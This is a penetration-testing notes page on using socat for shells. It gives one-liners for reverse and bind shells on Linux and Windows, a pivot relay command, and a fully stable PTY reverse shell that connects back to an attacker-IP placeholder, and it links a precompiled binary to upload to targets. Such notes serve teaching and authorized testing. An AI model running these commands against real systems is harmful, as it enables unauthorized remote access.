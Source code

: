 ```yaml
---
layout: default
title: Socat
parent: Shells
nav_order: 9
---
```


# Socat

---

## Download from GitHub Repos

[Socat Download Page](http://www.dest-unreach.org/socat/download/)

Run the following commands on the host that will be running Socat

```bash
tar -xzf socat-1.8.0.0.tar.gz
cd socat-1.8.0.0
./configure
make
```

## Example Commands

To get a reverse shell relay with port forwarding, run the following on the pivot host

```bash
socat tcp-l:3333,fork,reuseaddr tcp:172.16.40.6:3333 &
```

## Reverse Shells

---

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

`socat TCP-L:<port> -`

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

## Bind Shells

---

On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is *significantly* more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

`socat TCP-L:<port> FILE:`tty`,raw,echo=0`

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it.

That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:
